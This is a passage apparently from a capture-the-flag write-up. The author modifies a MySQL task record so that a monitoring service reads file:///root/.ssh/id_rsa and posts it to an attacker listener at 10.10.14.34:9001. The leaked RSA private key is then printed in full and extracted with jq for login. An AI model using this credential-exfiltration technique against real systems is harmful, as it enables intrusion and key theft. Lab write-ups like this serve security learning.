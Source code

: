 ### Extract id_rsa

Immediately after creating a new task we confirm that it's in the DB and then we proceed to modify it.

```bash
mysql> update tasks set monitoredUrl = 'file:///root/.ssh/id_rsa';

...(SNIP)...

mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl             | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| 28073286-067b-4033-907e-d1e753c2814a | http://10.10.14.34:9001/ |         0 | file:///root/.ssh/id_rsa | */5 * * * * | 2023-02-04 17:14:15 | 2023-02-04 17:14:15 |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)
```

And after some time we have a hit in our local server.

```bash
{"webhookUrl":"http:\/\/10.10.14.34:9001\/","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```

We just need to use some jq to extract the data that we want.

```bash
❯ cat root| jq -r .body
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9/jG5NPqc2TfW4Nlj9gE
KScDJTrF0vXYnIy4yUwM4/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq
IMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH/
KuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL/XP1hN4B7egzjcV8Rphj6XRE3bhgH
7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8
W6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae
NPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9
t3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8/v/3Jeesznu+RJ+G0ezyUGfi0wpQRoD
(...SNIP...)
```
And then log in.
